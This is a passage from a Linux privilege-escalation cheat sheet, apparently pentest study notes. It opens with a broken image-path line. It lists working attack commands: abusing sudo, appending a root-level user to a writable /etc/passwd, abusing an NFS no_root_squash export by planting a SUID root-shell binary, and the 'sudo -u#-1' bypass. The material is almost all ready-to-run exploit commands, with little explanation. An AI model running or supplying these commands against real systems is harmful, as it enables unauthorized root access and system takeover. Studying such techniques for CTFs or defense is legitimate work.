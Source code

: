 -> Exploitation  
- https://gtfobins.github.io/

#### Run commands as another user with permission through sudo [PrivEsc]
```bash
sudo -u <username> <command>
```

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```bash
ls -la /etc/passwd
ls -la /etc/shadow
```

-> Exploitation  
```bash
echo "user:$(openssl passwd password123):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
```bash
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```bash
rpcinfo <ip>
```

-> Mount - Attacker VM
```bash
mkdir /tmp/1
mount -o rw,vers=2 <ip>:/<nfs_directory> /tmp/1
```

-> Creating and compiling file for privesc - Attacker VM
```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
gcc /tmp/1/x.c -o /tmp/1/x
chmod +s /tmp/1/x
```

-> Exploitation - VM Owned
```bash
/tmp/x
id
```

### sudo < v1.28 - @sickrov [PrivEsc]
```bash
sudo -u#-1 /bin/bash
```
